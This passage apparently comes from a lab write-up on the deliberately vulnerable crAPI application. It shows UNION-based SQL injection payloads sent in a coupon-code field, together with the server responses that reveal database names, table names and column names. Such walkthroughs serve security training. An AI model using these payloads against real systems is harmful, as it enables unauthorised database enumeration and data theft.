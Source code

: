 *From here, i'll just post body from each request*

#### Getting Databases

```
{"coupon_code":"blind' UNION ALL select string_agg(datname,',') FROM pg_database OFFSET 0--","amount":125}

{"message":"postgres,crapi,template1,template0 Coupon code is already claimed by you!! Please try with another coupon code"}
```

#### Getting Tables (all)

```
{"coupon_code":"blind' UNION ALL SELECT string_agg(table_name,',') FROM information_schema.tables --","amount":125}

{"message":"otp_token,profile_video,user_details,vehicle_model,vehicle_details,vehicle_location,vehicle_company,pg_statistic,pg_type,user_login,otp,django_migrations,pg_foreign_table,pg_authid,pg_shadow,pg_statistic_ext_data,pg_roles,mechanic,service_request,pg_settings,pg_file_settings,pg_hba_file_rules,product,order,applied_coupon,pg_config,pg_shmem_allocations,pg_backend_memory_contexts,pg_available_extension_versions,health_check_db_testmodel,pg_user_mapping,pg_stat_xact_user_functions,pg_replication_origin_status,pg_subscription,pg_attribute,pg_proc,pg_class,pg_attrdef,pg_constraint,pg_inherits,pg_index,pg_operator,pg_opfamily,pg_opclass,pg_am,pg_amop,pg_amproc,pg_language,pg_stat_archiver,pg_stat_bgwriter,pg_stat_wal,pg_stat_progress_analyze,pg_stat_progress_vacuum,pg_stat_progress_cluster,pg_stat_progress_create_index,pg_stat_progress_basebackup,pg_stat_progress_copy,pg_largeobject_metadata,...SNIP...applicable_roles,administrable_role_authorizations,check_constraint_routine_usage,character_sets,check_constraints,collations,collation_character_set_applicability,column_column_usage,column_domain_usage,routines,column_privileges,role_column_grants,column_udt_usage,columns,constraint_column_usage,routine_column_usage,...SNIP...,views,triggers,udt_privileges,foreign_data_wrappers,role_udt_grants,data_type_privileges,usage_privileges,role_usage_grants,user_defined_types,element_types,view_column_usage,view_routine_usage,_pg_foreign_servers,_pg_foreign_table_columns,column_options,_pg_foreign_data_wrappers,foreign_table_options,foreign_data_wrapper_options,foreign_server_options,foreign_servers,_pg_foreign_tables,user_mapping_options,foreign_tables,_pg_user_mappings Coupon code is already claimed by you!! Please try with another coupon code"}
```

#### Getting columns from `user_details`

```
{"coupon_code":"blind' UNION ALL SELECT string_agg(column_name,',') FROM information_schema.columns WHERE table_name='user_details' --","amount":125}

{"message":"id,available_credit,picture,user_id,name,status Coupon code is already claimed by you!! Please try with another coupon code"}
```

#### Finding applied coupons columns

```
{"coupon_code":"blind' UNION ALL SELECT string_agg(column_name,',') FROM information_schema.columns WHERE table_name='applied_coupon' --","amount":125}

{"message":"id,user_id,coupon_code Coupon code is already claimed by you!! Please try with another coupon code"}
```
